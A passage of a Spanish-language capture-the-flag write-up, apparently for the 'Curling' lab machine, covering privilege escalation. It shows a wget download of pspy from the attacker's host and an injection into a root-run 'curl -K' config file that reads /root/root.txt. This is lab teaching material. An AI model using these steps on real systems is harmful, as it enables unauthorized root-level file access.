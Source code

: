 ```text
floris@curling:~$ cd admin-area/
floris@curling:~/admin-area$ ls
input  report
floris@curling:~/admin-area$ cat input
url = "http://127.0.0.1"
```

Ese es el contenido que se reinicia, pero no sabemos aun como ese contenido tiene relación, ya que aun no sabemos como este archivo es usado por root o floris. Esto nos lleva a explorar a mayor detalle los procesos que se generan dentro de la maquina, por lo que descargamos _pspy_ para explorar los procesos:

```text
floris@curling:/dev/shm$ wget http://10.10.12.67:4001/pspy64s
--2019-04-02 04:50:55--  http://10.10.12.67:4001/pspy64s
Connecting to 10.10.12.67:4001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 935452 (914K) [application/octet-stream]
Saving to: ‘pspy64s’

pspy64s                           100%[============================================================>] 913.53K   145KB/s    in 10s

2019-04-02 04:51:06 (91.3 KB/s) - ‘pspy64s’ saved [935452/935452]

floris@curling:/dev/shm$ chmod +x pspy64s
 ```

Tras ejecutar pspy y esperar un minuto veremos los cronjobs ejecutados como root:

```text
2019/04/02 04:54:01 CMD: UID=0    PID=6752   | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
2019/04/02 04:54:01 CMD: UID=0    PID=6751   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
2019/04/02 04:54:01 CMD: UID=0    PID=6750   | sleep 1
2019/04/02 04:54:01 CMD: UID=0    PID=6749   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input
2019/04/02 04:54:01 CMD: UID=0    PID=6748   | /usr/sbin/CRON -f
2019/04/02 04:54:01 CMD: UID=0    PID=6747   | /usr/sbin/CRON -f
```

Como podemos ver, root ejecuta el archivo _input_ con `curl -K` para generar el archivo _report_.

Espera que el reporte se ejecute correctamente dentro de 60 segundos y reinicia el archivo input.

# root.txt

Ahora que sabemos como funciona los cronjobs de root, podemos realizar unos ajustes ya que la opcion `\-K` recibe como parámetro el archivo de input de configuración, lo cual nos permite controlar algunas opciones como url:

```text
floris@curling:~/admin-area$ echo "url = \"file:///root/root.txt\"\noutput = /dev/shm/.deleteafterread" > input
floris@curling:~/admin-area$ sleep 1 && cat /dev/shm/.deleteafterread && rm /dev/shm/.deleteafterread
```

... We got root flag.

---

Gracias por llegar hasta aquí, hasta la próxima!
